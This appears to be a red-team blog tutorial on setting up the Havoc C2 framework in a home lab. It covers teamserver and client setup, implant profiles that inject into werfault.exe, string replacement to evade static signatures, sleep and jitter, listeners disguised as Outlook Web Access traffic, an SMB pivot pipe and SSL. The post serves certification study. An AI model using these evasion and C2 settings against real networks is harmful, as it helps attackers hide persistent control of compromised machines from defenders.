


## under development
[back to blog](../blog.md)

Disclaimer: This blog is for educational purposes only. The author does not condone or support illegal activity, use the information responsibly and only in environments you own or have explicit written permission to test. 

All examples shown here are drawn from the author’s self-study for red-teaming certifications and from technical blogs; environments demonstrated are owned by the author and hosted in virtual machines locally. The author accepts no responsibility or liability for any actions taken by readers that violate applicable laws, regulations, or terms of service.

The main purpose of this blog is to share knowledge about Havoc C2 and it's setup.

Just a random picture I found on the internet related to ina's stream on hollow knight silksong. Not related to blog lol, I just feel like I want to add it here.


The post will focus on Havoc C2. 

* [Getting started](#havoc-installation)
  * [Teamserver](#team-server)
  * [client](#client)
* [Profile configuration](#profile-configuration)
  * [base profile](#base-profile)
  * [Demon block](#demon-block)
    * [Injection](#injection)
    * [Replace strings](#replace-strings)
    * [sleep and jitter](#sleep-and-jitter)
  * [Listeners block](#listeners-block)
    * [HTTP/HTTPS block](#httphttps-block)
    * [SMB block](#smb-block)
  * [Teamserver block](#teamserver-block)
  * [Operators block](#operators-block)
* [SSL for beacon](#generating-ssl-for-agentimplant)
* [Beacon Object Files](../BOF/intro.md)
* [Infra setup](Infrastructure-setup.md)

## Havoc installation

Follow the installation on the official wiki. [Havoc wiki installation](https://havocframework.com/docs/installation).

Or in kali you can use apt install havoc. [Havoc repo kali](https://www.kali.org/tools/havoc/). `version: 0.6~git20240910.69ce17c arch: amd64`

```bash
kali> havoc                                                      
Command 'havoc' not found, but can be installed with:
sudo apt install havoc
Do you want to install it? (N/y)
```

After installing we got our team server and client.

## Team server

```bash
havoc --help
Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]

Usage:
  havoc [flags]
  havoc [command]

Available Commands:
  client      client command
  help        Help about any command
  server      teamserver command

Flags:
  -h, --help   help for havoc

Use "havoc [command] --help" for more information about a command.
```

The team server is the core component of any C2 it’s where you generate payloads, set up listeners, interact with agents, and more. See the Havoc documentation for details:
[Team server](https://havocframework.com/docs/teamserver)

Ideally, the team server should be hosted locally and must not expose any ports to the public Internet. This reduces the risk from threat actors, automated scanners, and opportunistic bots. The host running the team server should be fully patched and follow security best practices and hardening guidelines.

(Optional) If you want to observe the risks firsthand get a VPS, check its IP on VirusTotal and observe that it might be clean (assuming that the previous owner did not do anything malicious), install Metasploit or another C2, create a listener, then leave it exposed for a few days. You’ll likely see the IP’s reputation degrade, and automated bots and scanners attempting to connect to or exploit the exposed service.

## Client

The Havoc client is used to connect to the C2 server. Each operator can connect to the server. The client also provides a GUI for operators to interact with the C2 functionalities. [Havoc client](https://havocframework.com/docs/client)


## Profile configuration

Creating a profile is one of the most important tasks in C2. It gives the operator the flexibility to customize the user agent, headers, and other attributes to blend into the network, you could also configure the payload behavior (for example, where it injects), remove strings, and other modifications. [havoc profile](https://havocframework.com/docs/profiles)

Unfortunately in havoc c2 (community), just adding the community word here because there is an upcoming **havoc pro** and it's not released yet as the time of writing. So going back, in havoc it only offers a couple of modification you could do on the payload and on it's other functionalities unlike in cobalt strike you have a wide range of stuffs (well its been around for ages now) you could use such as:

Preventing the use of RWX when the payload gets executed, have obfuscate and cleanup, have a smart inject and many more. TLDR CS profile have a configuration for stage, post exploitation, process injection, and etc. [CS profile](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_main.htm)

If you want to know more about the profile you can check out these blogs from WhiteKnightLabs (WKL), I will be also adding some parts I learned there in our profile so it's good to have a read of it.

* https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/
* https://whiteknightlabs.com/2025/05/19/harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion-part-2/

So for now we will start first, by using the havoc profile generator to get a base profile and then moving forward we will be modifying the parts. [Havoc profile generator](https://github.com/Ghost53574/havoc_profile_generator)

```bash
git clone https://github.com/Ghost53574/havoc_profile_generator

cd havoc_profile_generator
pip3 install -r requirements.txt
```

## Base profile

```bash
python3 havoc_profile_generator.py -h
usage: Havoc profile generator [-h] [-c CONFIG] [-r READ] [-l [LIST]] [-s [SYSNATIVE]] [-a ARCH] [-p PROFILE] [-H HOST] [-S HOSTS] [-P PORT] [-L LISTENERS] [-E [EVASION]] [-M MPORTS] [-o OUTFILE] [-q [QUIET]]

Generate havoc c2 profiles with ease and randomness

options:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Config file to use, don' use a conifg file for a completely random profile
  -r READ, --read READ  Directory to read CS profiles from
  -l [LIST], --list [LIST]
                        List supported profiles
  -s [SYSNATIVE], --sysnative [SYSNATIVE]
                        Only support sysnative for spawn to
  -a ARCH, --arch ARCH  Selected architecture between x86, x64 & x86_64
  -p PROFILE, --profile PROFILE
                        Select a traffic profile
  -H HOST, --host HOST  The listeners ip
  -S HOSTS, --hosts HOSTS
                        The hosts array in the form of 10.0.0.1,10.0.0.2
  -P PORT, --port PORT  Set the port for listeners to listen on
  -L LISTENERS, --listeners LISTENERS
                        Set the port for listeners to listen on
  -E [EVASION], --evasion [EVASION]
                        Set beacon defaults to be more evasive
  -M MPORTS, --mports MPORTS
                        Set's the min port and max port for randomization
  -o OUTFILE, --outfile OUTFILE
                        Output file of the final Havoc C2 pofile
  -q [QUIET], --quiet [QUIET]
                        Do not show banner

```

You can use the same command as below or use your own preffered command. This will generate the havoc profile.

```bash
python3 havoc_profile_generator.py -E -S 192.168.56.101 -o test.profile
```

after generating the profile rerun the server and connect to it. The code snippet below shows how to start the teamserver with the newly generated profile.

```bash
havoc server --profile profiles/test.profile --debug
```

As observe it generates a random user, password and C2 port, you can also specify the name of the profile. You can see I also have multiple profiles which I used in CTF specially in pro labs. Once you fully understand how the C2 works and have enough BOF to finish the labs while using the C2. I highly suggest to do a pro labs in hackthebox (cybernetics and APTLabs).


For the meantime, generate a payload and ensure that everything works fine. If you receive an error **"[-] Injection Spawn64 is undefined"**, ensure that the profile demon block have an injection point or you can add the spawn path when you generate the payload.

Demon block. You must specify which process you need to inject into, inorder to blend into the network. As for example if you choose notepad and calc as injection **are these processes should be making a HTTP/HTTPS request ?**, if not choose a proper process that makes a HTTP/HTTPS request such as edge, chrome or other processes.

## Demon block

### Injection

As shown in the code block below, I used werfault.exe for injection. It makes HTTP/HTTPS requests to Microsoft for error reporting. [werfault microsoft](https://learn.microsoft.com/en-us/answers/questions/2790832/how-to-repair-c-windowssystem32werfault-exe).

The spawn / injection block is used for post exploitation modules and injects into either x64 or x86 architecture.

```bash
Demon {
    Sleep  = 47 #47 seconds for checkin
    Jitter = 62 #A randomization percentage applied to the sleep interval
    
    Injection {
     Spawn64 = "C:\\Windows\\System32\\werfault.exe"
     Spawn32 = "C:\\Windows\\SysWOW64\\werfault.exe"
    }
}
```

Generate a test payload and ensure that it compiles the payload.


For the next example I will be using dll payload, because for some reason the generated exe does not contains demon.x64.exe when you run strings on it. 

### Replace strings

As shown from the screenshot below when you run strings on demon.x64.dll it will show the following at the end.

* demon.x64.dll
* Dllmain
* Start


This payload can be easily detected by AV/EDR and blue-team analysts when they inspect strings or perform static analysis. To add a bit of evasion you can remove some strings it generated when you run a command or when you generated a payload. To fully evade static signature you must also modify the source code.

To remove the strings you can use the following on the profile. The **ReplaceStrings-x64 could be use to replace strings** into something or just make it blank. The blog from WKL https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/ shows a handful of **strrep** that we could use. We can copy a few of them in our profile and convert it into ReplaceStrings-x64.

Below is just an example of replacing strings and if you want to add more feel free to do, I suggest that you add everything that could give some detection.


```bash
#injection block for post exploitation.
Injection {
     Spawn64 = "C:\\Windows\\System32\\werfault.exe"
     Spawn32 = "C:\\Windows\\SysWOW64\\werfault.exe"
    }
#payload generated block currently it only supports ReplaceStrings-x64 to remove some sigs such as demon.x64.exe
    Binary {
        ReplaceStrings-x64 = {
            "demon.x64.dll": "",
            "demon.x64.exe": "",
            "DllMain":"",
            "Start":"",
            "demon": "",
            ".x64.dll": "",
            "This program cannot be run in DOS mode.": "",
        }

        ReplaceStrings-x86 = {
            "demon.x86.dll": "",
            "demon.x86.exe": "",
            "demon": "",
            "This program cannot be run in DOS mode.": "",
        }
    }
```

Save the new profile and restart the server. Generate the payload and run strings again, you should see a difference and that it removed the targeted strings to replace. I highly recommend adding more replacestrings, similar to WhiteKnight Labs’ blog, to add a little bit of stealth.


Another thing to do when you edit the profile or change something in the source code, is to always generate a new payload, execute it on a windows test server and ensure that it still works.

### sleep and jitter
If you have notice we have sleep and jitter on the profile when we generate it. [havoc profile documentation](https://havocframework.com/docs/profiles)

| Field | Description 
| -------- | -------- 
| Sleep | The baseline time that the agent/implant waits between contacting the C2 server. For example if sleep is set to 60, the Demon will check in every 60 seconds.
| Jitter | A randomization percentage applied to the sleep interval, to avoid predictable agent/implant patterns. When the sleep is set to 60 and the jitter to 20, the actual check in interval will randomly vary between 48 and 72 seconds (20%), making it harder for defenders to fingerprint fixed agent/implant intervals.


## Listener block

The generated profile, gives the Listener block below. There's a lot of parameters here but generally some of it are self explanatory. Another thing that I will highly suggest is to change the values of the headers like the cookies, response and etc. As it may been signatured and could be easily detected. It's ideally good to always create your own or replicate an actualy request/response.

```bash
Listeners { #listeners block
    Http { # port 80
        Name         = "Agent Listener - HTTP"
        KillDate     = "2026-03-28 08:14:20"
        WorkingHours = "0:00-23:59"
        Hosts        =  ["192.168.56.101"]
        HostBind     = "0.0.0.0"
        HostRotation = "round-robin"
        PortBind     =  80
        Secure       =  false
        UserAgent    = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"
        Uris         =  ["/owa/", "/OWA/"]
        Headers      =  ["Accept: */*", "Cookie: MicrosoftApplicationsTelemetryDeviceId=95c18d8-4dce9854;ClientId=1C0F6C5D910F9;MSPAuth=3EkAjDKjI;xid=730bf7;wla42=ZG0yMzA2KjEs"]

        Response { # response of the server
            Headers  = ["Cache-Control: no-cache", "Pragma: no-cache", "Content-Type: text/html; charset=utf-8", "Server: Microsoft-IIS/10.0", "request-id: 6cfcf35d-0680-4853-98c4-b16723708fc9", "X-CalculatedBETarget: BY2PR06MB549.namprd06.prod.outlook.com", "X-Content-Type-Options: nosniff", "X-OWA-Version: 15.1.1240.20", "X-OWA-OWSVersion: V2017_06_15", "X-OWA-MinimumSupportedOWSVersion: V2_6", "X-Frame-Options: SAMEORIGIN", "X-DiagInfo: BY2PR06MB549", "X-UA-Compatible: IE=EmulateIE7", "X-Powered-By: ASP.NET", "X-FEServer: CY4PR02CA0010", "Connection: close"]
        }
    }

    Http { # HTTPS
        Name         = "Agent Listener - HTTP/s"
        KillDate     = "2026-07-07 13:41:49"
        WorkingHours = "0:00-23:59"
        Hosts        =  ["192.168.56.101"]
        HostBind     = "0.0.0.0"
        HostRotation = "round-robin" #rotates on the listed host
        PortBind     =  443 # port
        Secure       =  true # Will use SSL
        UserAgent    = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36" # Useragent used in the HTTP request
        Uris         =  ["/owa/", "/OWA/"] # url path
        Headers      =  ["Accept: */*", "Cookie: MicrosoftApplicationsTelemetryDeviceId=95c18d8-4dce9854;ClientId=1C0F6C5D910F9;MSPAuth=3EkAjDKjI;xid=730bf7;wla42=ZG0yMzA2KjEs"] # headers of the request

        Response {
            Headers  = ["Cache-Control: no-cache", "Pragma: no-cache", "Content-Type: text/html; charset=utf-8", "Server: Microsoft-IIS/10.0", "request-id: 6cfcf35d-0680-4853-98c4-b16723708fc9", "X-CalculatedBETarget: BY2PR06MB549.namprd06.prod.outlook.com", "X-Content-Type-Options: nosniff", "X-OWA-Version: 15.1.1240.20", "X-OWA-OWSVersion: V2017_06_15", "X-OWA-MinimumSupportedOWSVersion: V2_6", "X-Frame-Options: SAMEORIGIN", "X-DiagInfo: BY2PR06MB549", "X-UA-Compatible: IE=EmulateIE7", "X-Powered-By: ASP.NET", "X-FEServer: CY4PR02CA0010", "Connection: close"] # response of the server when it's successful.
        }
    }
    # smb block for pivoting.
    Smb {
        Name         = "Pivot - Smb" # smb listener name
        PipeName     = "gecko.8410.5458.476275831687329289" # named pipe of the SMB
    }
}
```

if you are receiving invalid host header make sure to check the host header and add the appropriate value or remove it for the meantime.

### HTTP/HTTPS block

* Name - the listener name
* Killdate - if it reach the kill date the agent/implant will terminate itself if it's running.
* Hosts - where the agent will connect to. Just think of it as a netcat listener, you can also add a domain and port
* Host rotation - cycle through hosts sequentially (round robin). If it's random it will pick a random host listed.
* Secure - will be https and have a cert/tls/ssl. Later on we will generate our own SSL cert since this will be needed for the http/https redirector.
* User-agent / headers / Uris - These 3 are important and self explanatory but the main purpose of these 3 are, they used to blend into the network traffic and also used for callback. Lets say for example if the headers or User-agent does not match you wont be able to get a callback. You can also use a special header with a value or a special value in a header, this can be utilize for the redirector inorder for them to know that this specific callback/traffic is coming from the C2 implant/agent and not from a bot.
* Cert - You can specify your own SSL configuration, later I will do a walktrough for it. [SSL for agent](#generating-ssl-for-agentimplant)
* Response - if the agent made a successful callback it will show a specific HTTP response you specified.

There are a lot more and I will highly suggest to check out the documentation. [Havoc profile](https://havocframework.com/docs/profiles).

As shown from the screenshot below, I can see it makes a post request on /owa/ and it adds the cookie value, useragent and other parameters it had on the profile. It also shows the response with data of what command was executed but it's encrypted.



### SMB block

* name - the smb listener name.
* Pipename - the SMB pipename, where it will connects to. Ideally you should change the pipename into a smb looking pipe to blend into the network.

To create a pivot connection you could do `pivot connect <host> <pipe>`. I will be showing an example on how to perform a lateral movement via havoc on another blog.

```bash
Smb {
        Name         = "Pivot - Smb" # smb listener name
        PipeName     = "gecko.8410.5458.476275831687329289" # named pipe of SMB
    }
```

## Teamserver block

The teamserver block is pretty much self explanatory here is where the teamserver starts and listen and it's highly recommended to use different port and start the server locally. The build block is used for compiling the C and assembly payload. 

```bash
#teamserver config where it runs
Teamserver {
    Host = "127.0.0.1"
    Port = "29229"
    #payload compiler
    Build {
        Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc"
        Compiler86 = "/usr/bin/i686-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
}
```

## Operators block

The operator block is where you specify the authentication to teamserver for each operator. As usual the password should be strong.

```bash
#users
Operators {
    user "christinadeleon" {
        Password = "<REDACTED>"
    }

    user "neo" {
        Password = "<REDACTED>>"
    }
}
```

## Generating SSL for beacon

To generate an SSL for havoc you can use openssl command below. 

```bash
openssl genpkey -algorithm RSA -out havoc.key -pkeyopt rsa_keygen_bits:2048

openssl req -new -x509 -key havoc.key -out havoc.crt -days 365 -subj "/CN=localhost"

```

Inside the HTTP block of https profile add the following Cert block

```bash
Cert {
            Cert = "/home/kali/c2/Havoc/profiles/havoc.crt" #path file to CRT
            Key = "/home/kali/c2/Havoc/profiles/havoc.key" # path file to private key
        }
```

Next generate a payload and ensure that it works. After receiving a callback I opened wireshark and checks the traffic. It can be seen that the traffic is encrypted.



The next post will cover infrastructure setup. I’m still learning, so some OPSEC trade-offs or imperfect practices may appear.

[Go to Next](infrastructure-setup.md)


[back to blog](../blog.md)